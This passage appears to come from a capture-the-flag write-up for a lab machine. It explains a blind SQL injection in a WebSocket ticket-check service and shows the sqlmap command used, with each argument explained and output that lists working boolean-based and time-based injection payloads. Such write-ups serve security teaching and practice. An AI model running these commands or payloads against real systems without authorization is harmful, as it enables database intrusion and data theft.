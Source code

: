 This is a blind SQL injection - no data from the database comes back in the response, only one of two responses. In this case, this will be `Ticket Exists`, or `Ticket Doesn't Exist`.

### SQLMap

Doing this manually is a rather laborious task. So instead, I’m going to do this in SQLMap. It’s possible that SQLmap shows the following error message

> [19:59:41] [CRITICAL] sqlmap requires third-party module 'websocket-client' in order to use WebSocket functionality
>

The problem is that SQLMap is missing the Python websockets library. On Kali this is an easy fix

```bash
$ sudo apt install python3-websocket
```

For the initial discovery, I pass the following arguments

| Argument | Value | Description |
| --- | --- | --- |
| -u | ws://soc-player.soccer.htb:9091 | The URL to connect to |
| --data |  '{"id": "1234"}' | The data or payload to send over the connection. |
| --dbms | mysql | Letting SQLMap know that the backing dbms is MySQL |
| --batch | / | Use the default answer for any question. |
| --level | 5 | Level of tests to perform (default) |
| --risk | 3 | Risk of tests to perform. (default 1) |

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3

...[snip]...
[20:02:28] [INFO] testing 'MySQL UNION query (78) - 81 to 100 columns'
[20:02:30] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[20:02:30] [INFO] checking if the injection point on (custom) POST parameter 'JSON id' is a false positive
(custom) POST parameter 'JSON id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 372 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"id": "-9383 OR 7369=7369"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id": "1234 AND (SELECT 9125 FROM (SELECT(SLEEP(5)))hvYE)"}
---
[20:02:33] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```

This will run a bunch of tests which will take a few minutes to complete. Due to the `--batch` SQLMap argument default answers will be selected for every prompt that pops up.
